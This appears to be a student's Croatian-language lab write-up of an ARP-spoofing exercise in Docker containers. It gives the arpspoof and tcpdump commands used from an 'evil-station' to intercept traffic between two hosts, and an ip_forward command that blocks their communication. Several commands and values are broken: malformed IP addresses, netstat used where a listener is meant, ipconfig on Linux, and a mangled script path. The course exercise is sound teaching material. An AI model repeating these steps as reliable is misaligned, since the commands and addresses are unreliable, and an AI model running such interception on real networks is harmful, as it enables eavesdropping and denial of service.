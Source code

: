 # ARP- spoofing

Klonirani git repozitorij: git clone https://github.com/mcagalj/SRP-2021-22

U direktoriju pokrecemo bash script: sh./start/sh

Udimo u docker container s naredbom docker exec -it station-1 bash i pingamo station - 2 sa ping station-2

Dohvati containerovu IP i Mac adresu sa naredbom ipconfig

station-1: 

IP: 172.21.02

ETH: 00:02

station-2:

IP: 172.21.04

ETH: 00:04

evil-station:

IP: 172.21.03

ETH: 00:03

Zapocinjemo razgovor izmedu dva stationa. Na Station-2 unosimo komandu: netstat -l -p 8000, a na Station-1 komandu: netstat station-2 8000. Time je uspostavljena komunikacija izmedu te dvije postaje.

Nakon toga ulazimo u evil-station i koristimo naredbe tcpdump za 'prisluskivanje' razgovora, arpspoof -t station-1 -r station-2.

Kad to napravimo unesemo naredbu:  tcpdump -XA station-1 and not arp.

Za blokiranje komunikacije izmedu te dvi postaje: echo 0 > /proc/sys/net/ipv4/ip_forward.
